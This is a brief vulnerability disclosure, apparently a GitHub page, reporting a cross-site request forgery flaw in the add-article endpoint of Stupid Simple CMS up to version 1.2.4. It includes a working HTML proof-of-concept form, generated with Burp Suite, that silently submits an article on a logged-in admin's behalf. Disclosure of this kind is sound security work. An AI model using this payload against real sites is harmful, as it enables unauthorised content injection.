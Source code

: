 product： Stupid Simple CMS ( Blogger )

download link： https://github.com/codelyfe/Stupid-Simple-CMS

version：<=1.2.4


Stupid Simple CMS v1.2.4 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /add-article.php

![1](https://github.com/YuoLuo/cms/assets/42996934/44f34cce-b455-41d1-bfda-0d0d0f424b45)


poc:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/add-article.php" method="POST">
      <input type="hidden" name="title" value="cs1" />
      <input type="hidden" name="content" value="cs" />
      <input type="hidden" name="image&#95;url" value="" />
      <input type="hidden" name="category" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```

![2](https://github.com/YuoLuo/cms/assets/42996934/1d077443-0181-4c9e-8e32-b8f5af28cd4d)


successed

![3](https://github.com/YuoLuo/cms/assets/42996934/afb7c0d8-6fdb-48f0-8e8d-8002c997ffec)

